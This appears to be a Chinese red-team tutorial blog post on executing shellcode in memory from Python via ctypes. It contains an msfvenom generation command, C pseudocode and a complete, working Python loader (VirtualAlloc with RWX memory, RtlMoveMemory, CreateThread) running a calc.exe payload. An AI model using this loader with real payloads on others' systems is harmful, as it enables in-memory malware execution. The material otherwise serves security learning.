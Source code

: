 ```yaml
---
title: Python内存加载shellcode
date: 2019-11-13 17:14:00
tags:
- shellcode
- 红队
- 工具
categories:
- 红队
---
```



## 生成

首先生成一个测试的msf shellcode

```bash
msfvenom -p windows/x64/exec CMD=calc.exe -f python
```

![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/2cbc73b0e4018b2761dcfd1584da6661..png)


把其中的shellcode复制出来留待待会使用

## 原理

大部分脚本语言加载 shellcode 其实都是通过 `c` 的 `ffi` 去调用操作系统的api，其实并没有太多的技巧在里面，明白了原理，只需要查一下对应的脚本语言怎么调用 `c` 即可。

那么我们只需要明白 `c` 通常是怎么加载 `shellcode` 的即可一通百通。

那么 `c` 是怎么加载 `shellcode` 呢，我们直接从汇编开始探究。

`shellcode` 这个东西我们明白是一串可执行的二进制（一般可执行文件的拥有可执行权限的section为.text），那么我们先通过其他的手段开辟一片拥有可读可写可执行权限的区域放入我们的 `shellcode`，然后跳转到 `shellcode` 首地址去执行就行了，汇编里面改变eip（即当前指令的下一条即将运行指令的虚拟地址）的方法有不少，最简单的就是直接 `jmp` 过去了。也就是写成伪码大概意思就是（动态申请内存就不写了）

```assembly
lea eax, shellcode;
jmp eax;
```

那么我们用 `c` 怎么表示呢？我这里也写一段伪码（因为本文的重点并不是在于 `c` 代码的编写）

那么按照刚才的思路，先申请一块可执行的内存，放入 `shellcode` 然后跳转过去执行即可。

```c
// shellcode
unsigned char shellcode[] =
    "\xd9\xeb\x9b\xd9\x74\x24\xf4\x31\xd2\xb2\x77\x31\xc9" 
    "\x64\x8b\x71\x30\x8b\x76\x0c\x8b\x76\x1c\x8b\x46\x08"  
    "\x8b\x7e\x20\x8b\x36\x38\x4f\x18\x75\xf3\x59\x01\xd1"  
    ...;
// 定义一个函数类型
typedef void (__stdcall *CODE) ();
// 申请内存
PVOID p = NULL;  
p = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
// 把shellcode放入内存
memcpy(p, shellcode, sizeof(shellcode));

CODE code =(CODE)p;

code();
```

我并没有写出一个可用的 `c` 加载 `shellcode`，只是旨在点出一下流程，然后引出后面的 `python` 加载 `shellcode`，上面我们先申请了一块带有可读可写可执行权限的内存，然后把 `shellcode` 放进去，然后我们强转为一个函数类型指针，最后调用这个函数，达到了我们的目的。



## Python实现

前面我说过，大部分脚本语言加载 `shellcode` 都是调用的c的ffi，那么我们直接按照之前的思路来就行了。下面我直接贴代码

```python
import ctypes

shellcode =  b""
shellcode += b"\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41"
shellcode += b"\x50\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48"
shellcode += b"\x8b\x52\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f"
shellcode += b"\xb7\x4a\x4a\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c"
shellcode += b"\x02\x2c\x20\x41\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52"
shellcode += b"\x41\x51\x48\x8b\x52\x20\x8b\x42\x3c\x48\x01\xd0\x8b"
shellcode += b"\x80\x88\x00\x00\x00\x48\x85\xc0\x74\x67\x48\x01\xd0"
shellcode += b"\x50\x8b\x48\x18\x44\x8b\x40\x20\x49\x01\xd0\xe3\x56"
shellcode += b"\x48\xff\xc9\x41\x8b\x34\x88\x48\x01\xd6\x4d\x31\xc9"
shellcode += b"\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41\x01\xc1\x38\xe0"
shellcode += b"\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1\x75\xd8\x58"
shellcode += b"\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c\x48\x44"
shellcode += b"\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01\xd0"
shellcode += b"\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
shellcode += b"\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48"
shellcode += b"\x8b\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00"
shellcode += b"\x00\x00\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41"
shellcode += b"\xba\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41"
shellcode += b"\xba\xa6\x95\xbd\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06"
shellcode += b"\x7c\x0a\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a"
shellcode += b"\x00\x59\x41\x89\xda\xff\xd5\x63\x61\x6c\x63\x2e\x65"
shellcode += b"\x78\x65\x00"

shellcode = bytearray(shellcode)
# 设置VirtualAlloc返回类型为ctypes.c_uint64
ctypes.windll.kernel32.VirtualAlloc.restype = ctypes.c_uint64
# 申请内存
ptr = ctypes.windll.kernel32.VirtualAlloc(ctypes.c_int(0), ctypes.c_int(len(shellcode)), ctypes.c_int(0x3000), ctypes.c_int(0x40))
 
# 放入shellcode
buf = (ctypes.c_char * len(shellcode)).from_buffer(shellcode)
ctypes.windll.kernel32.RtlMoveMemory(
    ctypes.c_uint64(ptr), 
    buf, 
    ctypes.c_int(len(shellcode))
)
# 创建一个线程从shellcode防止位置首地址开始执行
handle = ctypes.windll.kernel32.CreateThread(
    ctypes.c_int(0), 
    ctypes.c_int(0), 
    ctypes.c_uint64(ptr), 
    ctypes.c_int(0), 
    ctypes.c_int(0), 
    ctypes.pointer(ctypes.c_int(0))
)
# 等待上面创建的线程运行完
ctypes.windll.kernel32.WaitForSingleObject(ctypes.c_int(handle),ctypes.c_int(-1))
```

注意其中的的每个 `c_uint64`，这个类型在64位上是必要的，我们需要手动指定 ` argtypes` 和 `restype `，否则默认的是 32 位整型。

我的代码里面加了注释，我们可以看到，基本思路也是一样的，先分配一块可读可写可执行代码的内存，在代码中，我使用的是 `0x40`（PAGE_EXECUTE_READWRITE）和 `0x3000` ( 0x1000 | 0x2000)(MEM_COMMIT | MEM_RESERVE)，然后把 `shellcode` 塞进去，跳过去运行。

![enter description here](https://raw.githubusercontent.com/akkuman/pic/master/pic/2021/8/2edf4ff180769ceee15287bfacbcde97..png)

相信通过这一片文章的讲解你能够对 `shellcode` 的本质有更多的了解。